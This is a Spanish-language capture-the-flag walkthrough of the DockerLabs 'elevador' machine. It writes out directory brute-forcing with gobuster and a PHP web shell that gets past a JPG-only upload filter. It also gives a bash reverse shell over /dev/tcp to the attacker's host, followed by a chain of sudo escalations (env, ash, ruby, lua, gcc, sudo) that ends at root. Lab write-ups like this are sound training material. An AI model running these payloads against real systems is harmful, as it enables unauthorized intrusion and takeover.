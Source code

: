 nmap:  80
![[dockerlabs/facil/elevador/nmap.png]]

---
dentro de la pagina podemos ver que nos da un mensaje al abrir el ascensor:
![[dockerlabs/facil/elevador/pagina principal.png]]
![[dockerlabs/facil/elevador/pagina principal 2.png]]
al hacer una ataque de fuerza bruta a los directorios  nos mostrara un "themes",

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k

![[dockerlabs/facil/elevador/gobuster.png]]

ahora si hacemos otra vez un gobuster pero agregando el "themes" 

      gobuster dir -u http://172.17.0.2/themes -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


y nos dará algunos importantes
![[gobuster2.png]]

si ingresamos al primero o sea al uploads nos mandara a una subida de archivos
![[uploads.png]]

como también me dio: archivo.html nos vamos ahí y vemos que podemos subir archivos pero solo archivos JPG
![[pagina principal3.png]]


como solo deja subir archivos "jpg" modificamos un archivo 
> nano shell.php.jpg

dentro tendrá este código:

    - <?php system($_GET['cmd']); ?>

vemos que se subió
![[dockerlabs/facil/elevador/subido.png]]

 presionamos el archivo que nos muestra y veremos que no hay nada pero en la URL la modificamos para que quede así:
> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=whoami
![[comprobando.png]]

nos mostrara "www-data" o sea que la vulnerabilidad esta, así que modificamos la terminal con una bash y colocamos el terminal en escucha
dejamos la terminal asi:

> 172.17.0.2/themes/uploads/675712b70a259.jpg?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/443%200%3E%261%22

![[conexion.png]]

y ahora dentro si hacemos un "sudo -l" vemos que podemos escalar por "env", 
![[env.png]]
la buscamos: https://gtfobins.github.io/gtfobins/env/

como se que hay otros usuarios pobre y funciono el escalado con daphne:
> sudo -u daphne /usr/bin/env /bin/sh
![[usuario1.png]]

y somos el usuario daphne

al hacer sudo -l da: "ash" la buscamos: https://gtfobins.github.io/gtfobins/ash/

ahora lanzamos asi:
> sudo -u vilma /usr/bin/ash
![[dockerlabs/facil/elevador/usuario2.png]]

y somos vilma

ahora al hacer sudo -l da que es ruby buscamos donde mismo y lanzamos asi:
> sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
![[dockerlabs/facil/elevador/usuario3.png]]

ahora somos shaggy y entonces ahora buscamos como escalar y aparece "lua"

lanzamos el comando así:
> sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'

![[usuario4.png]]

somos fred

podemos escalar con gcc y donde mismo buscamos y lanzamos el comando:
> sudo -u scooby /usr/bin/gcc  -wrapper /bin/sh,-s .

![[usuario5.png]]

somos scooby

ahora al hacer sudo -l podemos  ver que se escala por "sudo", modifico  el codigo para que se vea de esta forma:
> sudo -u root /usr/bin/sudo /bin/bash

![[dockerlabs/facil/elevador/root.png]]

y somos root! 